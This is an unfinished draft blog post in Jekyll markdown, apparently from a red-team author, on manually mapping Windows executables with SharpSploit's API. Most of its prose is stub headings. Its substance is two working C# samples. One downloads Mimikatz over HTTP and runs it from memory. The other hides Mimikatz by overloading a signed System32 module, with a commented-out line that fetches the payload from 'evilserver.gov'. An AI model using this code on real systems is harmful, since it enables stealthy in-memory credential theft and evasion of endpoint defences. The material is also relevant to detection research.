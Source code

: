 ```yaml
---
layout: post
title: Emulating Covert Operations - Manually Mapping Portable Executables
---
```


*TLDR: A guide to the new Manual Mapping API in SharpSploit, including a ranty discussion on the arcane art of manually mapping Windows executables (Portable Executables).*

![_config.yml]({{ site.baseurl }}/images/Manual_Map/45953a.jpg "Loaders, man...")

# Manual Mapping

Why manually map? 

## History

Started with 29A.

Many threat actors 

Also in Donut https://github.com/TheWover/donut/blob/master/loader/inmem_pe.c

As usual, hasherezade has a repo: https://github.com/hasherezade/libpeconv

## Understanding the Windows Loader

Ghidra time


## Building a Minimal Loader

1) Parsing the PE Headers
2) Relocation
3) Virtualization (Alignment, Protections, Resources)
4) Import Address Resolution
5) API Set Resolution
6) Module Initialization
7) TLS Callbacks
8) Export Resolution & Invocation
9) Invoking Main
10) Passing Command Line Parameters

### Parsing the PE Headers

What other useful information can we find here?

### Relocation

All your base are belong to us

### 

# Edge Cases

Security Cookie

Nonstandard entry points (fuck you Windows)

Some runtimes use other than GetCommandLine.

## Using the Manual Mapping API in SharpSploit

```csharp

using System;
using System.Runtime.InteropServices;

namespace MapTest
{
    class Program
    {
        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int MessageBox(IntPtr hWnd, String text, String caption, int options);

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate int TestFunc();

        static void Main(string[] args)
        {
            //Test DLL project can be found at: https://github.com/FuzzySecurity/DLL-Template

            Console.WriteLine("[+] Mapping Test DLL from disk into memory!");

            Console.WriteLine("\t[+] Calling Test DLL from memory by DLLMain...\n");
            // (1) Call test DLL by DLLMain
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModule(ManMapTest.PEINFO, ManMapTest.ModuleBase);

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (2) Call test DLL by export (Also calls DllMain as part of init)
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest2 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            object[] FunctionArgs = { };
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest2.PEINFO, ManMapTest2.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping Test DLL from byte array and calling export!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Test DLL from memory by export (also calls DllMain as part of init)!\n");

            // (3) Map test DLL using byte array. Call by export like above.
            byte[] bytes = System.IO.File.ReadAllBytes(@"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\Dll-Template.dll");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapTest3 = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(bytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedDLLModuleExport(ManMapTest3.PEINFO, ManMapTest3.ModuleBase, "test", typeof(TestFunc), FunctionArgs);

            Console.WriteLine();
            Console.WriteLine("[+] Mapping and calling Mimikatz from memory (via download from URL)!\n");

            Console.WriteLine();
            Console.WriteLine("\t[+] Calling Mimikatz EXE from memory!\n");

            // (4) Mimikatz x64
            byte[] katzBytes = new System.Net.WebClient().DownloadData(@"http://192.168.123.227:8000/mimikatz.exe");
            SharpSploit.Execution.PE.PE_MANUAL_MAP ManMapKatz = SharpSploit.Execution.DynamicInvoke.Generic.MapModuleToMemory(katzBytes);
            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(ManMapKatz.PEINFO, ManMapKatz.ModuleBase);

            Console.ReadLine();
        }
    }
}     

```
[Manual_Map1.png]

[Manual_Map2.png]

[Manual_Map4.png]

## Module Overloading

Basically the same as Phantom DLL Hollowing and Module Stumping.


```csharp

using System;
using System.IO;

namespace MapTest
{
    class Program
    {

        static void Main(string[] args)
        {

            string payload = @"C:\Users\thewover.CYBERCYBER\Source\Repos\ManualMapTest\ManualMapTest\mimikatz.exe";

            // Map a module to a file
            string decoyPath = @"C:\Windows\System32\user32.dll";

            byte[] payloadBytes = File.ReadAllBytes(payload);

            //Optionally, download the payload from a server into a byte array
            //byte[] payloadBytes = new System.Net.WebClient().DownloadData("http://evilserver.gov/kittenz.cute");

            //Overload, using specific decoy file
            SharpSploit.Execution.PE.PE_MANUAL_MAP metadata = SharpSploit.Execution.DynamicInvoke.Generic.OverloadModule(decoyPath, payloadBytes);

            //Overload, using randomly chosen decoy file
            //SharpSploit.Execution.PE.PE_MANUAL_MAP metadata = SharpSploit.Execution.DynamicInvoke.Generic.OverloadModule(payloadBytes);

            Console.WriteLine("[+] Module Address: " + metadata.ModuleBase);
            Console.WriteLine("[+] Module Name: " + metadata.ModuleName); //nothing when a module is loaded from memory
            Console.WriteLine("[+] Module Backing File: " + metadata.MemoryBackingFileName);

            Console.WriteLine("Hold fire!");
            Console.ReadLine();
            Console.WriteLine("Firing!");

            SharpSploit.Execution.DynamicInvoke.Generic.CallMappedPEModule(metadata.PEINFO, metadata.ModuleBase);

            //==========================================================[Sleep]
            while (true)
            {
                System.Threading.Thread.Sleep(10000);
            }
        }
    }
}

```

The fact that you have the same module module twice is suspicious. When you choose to overload a random module, it picks one that is not already loaded, is validly signed, and is in System32/SysWOW64.
[ModuleOverloading.png]

# Detection

Module loads

Memory scanning
